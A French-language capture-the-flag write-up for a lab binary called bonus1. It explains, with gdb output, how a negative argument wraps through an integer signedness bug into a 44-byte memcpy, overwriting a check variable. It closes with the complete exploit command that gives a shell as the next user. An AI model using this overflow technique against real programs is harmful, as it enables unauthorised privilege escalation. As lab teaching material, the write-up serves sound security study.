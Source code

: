 Afin de resoudre ce challenge il y a deux etapes a passer:  
  
La premiere consiste a ecrire un nombre qui doit etre plus petit ou egale '9', qui sera ensuite multiplier par 4 et sera le troisieme argument de memcpy().  
  
Le deuxieme etape consiste a ecraser l adresse 0xbffff6fc qui devra avoir pour valeur 0x574f4c46, nous pouvons voir que cette adresse est le premiere argument de la fonction memcpy()+40 et le deuxieme argument de memcpy est argv[2].  
=> 0x08048473 <+79>:    call   0x8048320 <memcpy@plt>  
(gdb) x/wx $esp  
0xbffff6c0:     0xbffff6d4  
(gdb) x/wx $esp+0x3c  
0xbffff6fc:     0xc000000c  
(gdb) p/d 0xbffff6fc-0xbffff6d4  
$45 = 40  
  
  
Nous devons donc pouvoir ecrire 44 octets avec argv[2] a partir de 0xbffff6fc pour ecraser 0xbffff6fc.  
Seulement, si nous multiplions 9 par 4 nous obtenons 36, ce qui n est pas suffisant pour ecraser les donnees de l adresse que nous devons modifier.  
Apres avoir reussi ce challenge, j'ai fais des recherche, et j'ai exploiter une vulnerabiliter de type "Exploiting these weaknesses" par rapport a cette doc:  
https://blog.feabhas.com/2014/10/vulnerabilities-in-c-when-integers-go-bad/#Exploiting_these_weaknesses  
Memcpy prend un size_t en troisieme argument, qui n accepte pas les valeurs inferieur a zero. Du coup si nous mettons -1 en premier parametre et que nous le converitssons dans sa valeur signed, nous obtenons ceci:  
(gdb) p/x -1  
$11 = 0xffffffff  
(gdb) p/d 0xffffffff  
$12 = 4294967295  
Nous pouvons voir que memcpy prend un troisieme parametre avec une taille impressionnante.
Nous sommes deja a -1, et nous voulons pouvoir ecrire 44 bytes, nous pouvons donc continuer dans le negatif afin de remmettre un signe negatif a cette valeur pour qu il redevienne positif:  
(gdb) p/d 4294967295-43
/*$13 = 4294967252
(gdb) p/d 4294967252/4
$14 = 1073741813
(gdb) p/d 4294967252%4
$15 = 0  
*/
(gdb) p/u -(0xffffffff-43)  
$29 = 44  
  
Le p/u signifie que nous voulons le resultat en unsigned int.  
Nous savons que le nombre sera multiplier par 4, vu que nous sommes en positif, nous devons de notre coter le diviser:  
  
(gdb) p/d (0xffffffff-43)
$33 = 4294967252
(gdb) p/d (0xffffffff-43)/4
$34 = 1073741813  
  
(gdb) p/d 4294967252%4  
$15 = 0  
  
Pour le modulo, ce n est pas trop important, on a une marge d erreur de 3 unites au dessus de 1073741813 vu que la division ne garde pas le reste.
  
(gdb) p/x -1073741813  
$37 = 0xc000000b  
  
Le premier c de 0xc000000b represente le bit de signe, negatif dans notre cas, du coup si on le passe en positif nous obtenons le chiffre 11 (11*4=44):
  
(gdb) p/u 0x0000000b  
$42 = 11  
  
Du coup, si nous passons notre variable en negatif, nous obtenons 11*4=44 dans le troisieme parametre du memcpy(), nous avons un beau shell avec les droits de l utilisateur bonus2:
  
./bonus1 -1073741813 $(python -c "print 'A' * 40 + '\x46\x4c\x4f\x57'")
